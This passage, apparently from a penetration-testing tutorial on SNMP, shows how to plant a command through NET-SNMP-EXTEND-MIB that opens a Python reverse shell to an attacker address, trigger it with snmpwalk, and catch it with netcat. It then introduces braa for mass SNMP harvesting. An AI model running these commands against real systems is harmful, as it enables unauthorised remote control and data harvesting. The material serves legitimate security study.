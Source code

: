 <h3 data-toc-skip>Creating reverse shell</h3>

You can also create reverse shell manually by injecting the command below into the SNMP

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

![Untitled](/assets/img/pitcures/snmp/snmp16.png)

run the snmpwalk to trigger the command execution

![Untitled](/assets/img/pitcures/snmp/snmp17.png)

Our netcat receives the reverseshell connection from the victim that allow us to gain control over the victim machine

![Untitled](/assets/img/pitcures/snmp/snmp18.png)

<h2 data-toc-skip>Massive SNMP</h2>

[Braa](https://github.com/mteg/braa) is a mass SNMP scanner. The intended usage of such a tool is, of course, making SNMP queries – but unlike snmpwalk from net-snmp, it is able to query dozens or hundreds of hosts simultaneously, and in a single process. Thus, it consumes very few system resources and does the scanning VERY fast.

Braa implements its OWN snmp stack, so it does NOT need any SNMP libraries like `net-snmp`.

**Syntax:** `braa [Community-string]@[IP of SNMP server]:[iso id]`

```bash
braa ignite123@192.168.1.125:.1.3.6.*
```

This can extract a lot MB of information that you cannot process manually.

So, lets look for the most interesting information (from [https://blog.rapid7.com/2016/05/05/snmp-data-harvesting-during-penetration-testing/](https://blog.rapid7.com/2016/05/05/snmp-data-harvesting-during-penetration-testing/))
